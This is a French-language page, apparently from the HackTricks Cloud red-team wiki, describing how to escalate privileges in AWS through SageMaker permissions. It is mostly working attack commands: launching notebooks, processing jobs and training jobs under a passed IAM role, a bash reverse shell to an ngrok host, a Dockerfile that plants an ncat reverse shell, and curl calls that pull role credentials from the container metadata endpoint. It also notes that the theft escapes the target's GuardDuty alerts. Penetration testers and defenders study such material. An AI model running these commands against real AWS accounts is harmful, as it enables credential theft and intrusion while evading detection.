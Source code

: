 # AWS - Sagemaker Privesc

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## sagemaker

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

La première étape de ce processus d'attaque consiste à **identifier un rôle qui fait confiance à SageMaker pour l'assumer** (sagemaker.amazonaws.com). Une fois cela fait, nous pouvons exécuter la commande suivante pour créer un nouveau notebook avec ce rôle attaché :
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
Si la tentative est réussie, vous recevrez dans la réponse d'AWS **l'ARN de la nouvelle instance de carnet de notes**. Cela prendra **quelques minutes** pour se mettre en place, mais une fois que cela sera fait, nous pourrons exécuter la commande suivante pour obtenir une URL pré-signée pour **accéder à l'instance de carnet de notes via notre navigateur web**. Il existe potentiellement d'autres moyens d'accéder, mais il s'agit d'une permission unique et d'un seul appel API, donc cela semblait simple.
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Si cette instance était entièrement opérationnelle, cet appel API retournera une **URL signée que nous pouvons visiter** dans notre navigateur pour accéder à l'instance. Une fois sur la page Jupyter dans mon navigateur, je cliquerai sur "Ouvrir JupyterLab" en haut à droite, comme on peut le voir dans la capture d'écran suivante.

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

Sur la page suivante, faites défiler tout en bas dans l'onglet "Launcher". Dans la section "Autre", cliquez sur le bouton "Terminal", comme on peut le voir ici.

![](<../../../.gitbook/assets/image (27).png>)

Depuis le terminal, nous avons quelques options, dont l'une serait de simplement **utiliser l'AWS CLI**. L'autre option serait de **contacter directement le service de métadonnées EC2** pour les informations d'identification du rôle IAM et les exfiltrer.

GuardDuty pourrait venir à l'esprit en lisant "exfiltrer" ci-dessus, cependant, nous n'avons pas réellement à nous soucier de GuardDuty ici. La découverte liée à GuardDuty est ["UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration"](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11), qui alertera si les informations d'identification d'un rôle sont volées d'une instance EC2 et utilisées ailleurs. Heureusement pour nous, cette instance EC2 ne vit pas réellement dans notre compte, mais c'est plutôt une **instance EC2 gérée hébergée dans un compte AWS propriétaire**. Cela signifie que **nous pouvons exfiltrer ces informations d'identification sans nous soucier de déclencher** les détecteurs GuardDuty de notre cible.

**Impact Potentiel :** Privesc au rôle de service sagemaker spécifié.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Similaire à l'exemple précédent, si des **notebooks Jupyter sont déjà en cours d'exécution** dessus et que vous pouvez les lister avec sagemaker:ListNotebookInstances (ou les découvrir de toute autre manière). Vous pouvez **générer une URL pour eux, y accéder et voler les informations d'identification comme indiqué dans la technique précédente**.
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**Impact potentiel :** Élévation de privilèges vers le rôle de service sagemaker attaché.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un attaquant avec ces permissions peut faire exécuter par **sagemaker un job de traitement** avec un rôle sagemaker attaché à celui-ci. L'attaquant peut indiquer la définition du conteneur qui sera exécuté dans une instance de compte **ECS géré par AWS**, et **voler les identifiants du rôle IAM attaché**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impact potentiel :** Élévation de privilèges au rôle de service sagemaker spécifié.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un attaquant avec ces permissions pourra créer un travail d'entraînement, **exécutant un conteneur arbitraire** avec un **rôle attaché** à celui-ci. Par conséquent, l'attaquant pourra voler les identifiants du rôle.

{% hint style="warning" %}
Ce scénario est plus difficile à exploiter que le précédent car vous devez générer une image Docker qui enverra le shell inversé ou les identifiants directement à l'attaquant (vous ne pouvez pas indiquer une commande de démarrage dans la configuration du travail d'entraînement).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impact Potentiel :** Privesc vers le rôle de service sagemaker spécifié.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un attaquant avec ces permissions pourra (potentiellement) créer un **job de formation d'hyperparamètres**, **exécutant un conteneur arbitraire** avec un **rôle attaché** à celui-ci.\
_Je n'ai pas exploité par manque de temps, mais cela semble similaire aux exploits précédents, n'hésitez pas à envoyer une PR avec les détails de l'exploitation._

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
